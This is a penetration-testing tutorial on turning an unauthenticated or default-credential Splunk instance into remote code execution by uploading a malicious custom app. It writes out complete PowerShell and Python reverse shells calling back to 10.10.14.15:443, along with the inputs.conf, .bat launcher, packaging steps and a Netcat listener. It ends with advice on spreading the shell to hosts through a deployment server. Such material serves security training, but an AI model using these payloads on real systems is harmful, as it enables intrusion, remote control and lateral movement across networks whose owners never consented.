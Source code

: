


Splunk is a log analytics tool used to gather, analyze and visualize data. Though not originally intended to be a SIEM tool, Splunk is often used for security monitoring and business analytics.



# Discovery/Footprinting

Splunk is prevalent in internal networks and often runs as root on Linux or SYSTEM on Windows systems. While uncommon, we may encounter Splunk externally facing at times. Let's imagine that we uncover a forgotten instance of Splunk in our Aquatone report that has since automatically converted to the free version, which does not require authentication. Since we have yet to gain a foothold in the internal network, let's focus our attention on Splunk and see if we can turn this access into RCE.

- The Splunk web server runs by default on port 8000. On older versions of Splunk, the default credentials are admin:changeme, which are displayed on the login page.


# Enumeration

The Splunk Enterprise trial converts to a free version after 60 days, which doesn’t require authentication. It is not uncommon for system administrators to install a trial of Splunk to test it out, which is subsequently forgotten about. This will automatically convert to the free version that does not have any form of authentication, introducing a security hole in the environment. 




# Abusing Built-In Functionality
    


[splunk reverse shell](   https://github.com/0xjpuff/reverse_shell_splunk  )

create a custom Splunk application using the following directory structure.

```
$ tree splunk_shell/

splunk_shell/
├── bin
└── default

2 directories, 0 files
```

The bin directory will contain any scripts that we intend to run (in this case, a PowerShell reverse shell), and the default directory will have our `inputs.conf` file. Our reverse shell will be a PowerShell one-liner.

```
$client = New-Object System.Net.Sockets.TCPClient('10.10.14.15',443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2  = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```

The inputs.conf file tells Splunk which script to run and any other conditions. Here we set the app as enabled and tell Splunk to run the script every 10 seconds. The interval is always in seconds, and the input (script) will only run if this setting is present.

```

    $ cat inputs.conf 

    [script://./bin/rev.py]
    disabled = 0  
    interval = 10  
    sourcetype = shell 

    [script://.\bin\run.bat]
    disabled = 0
    sourcetype = shell
    interval = 10
```

We need the .bat file, which will run when the application is deployed and execute the PowerShell one-liner.

```
    @ECHO OFF
    PowerShell.exe -exec bypass -w hidden -Command "& '%~dpn0.ps1'"
    Exit
```

Once the files are created, we can create a tarball or .spl file.

```
$ tar -cvzf updater.tar.gz splunk_shell/

splunk_shell/
splunk_shell/bin/
splunk_shell/bin/rev.py
splunk_shell/bin/run.bat
splunk_shell/bin/run.ps1
splunk_shell/default/
splunk_shell/default/inputs.conf

````
The next step is to choose Install app from file and upload the application.

Before uploading the malicious custom app, let's start a listener using Netcat or socat.

`$nc -lnvp 443`


On the Upload app page, click on browse, choose the tarball we created earlier and click Upload.

As soon as we upload the application, a reverse shell is received as the status of the application will automatically be switched to Enabled.

If we were dealing with a Linux host, we would need to edit the `rev.py` Python script before creating the tarball and uploading the custom malicious app. The rest of the process would be the same, and we would get a reverse shell connection on our Netcat listener and be off to the races.

````    
import sys,socket,os,pty

ip="10.10.14.15"
port="443"
s=socket.socket()
s.connect((ip,int(port)))
[os.dup2(s.fileno(),fd) for fd in (0,1,2)]
pty.spawn('/bin/bash')
```

# Spread in the network

If the compromised Splunk host is a deployment server, it will likely be possible to achieve RCE on any hosts with Universal Forwarders installed on them. To push a reverse shell out to other hosts, the application must be placed in the `$SPLUNK_HOME/etc/deployment-apps` directory on the compromised host. In a Windows-heavy environment, we will need to create an application using a PowerShell reverse shell since the Universal forwarders do not install with Python like the Splunk server.

    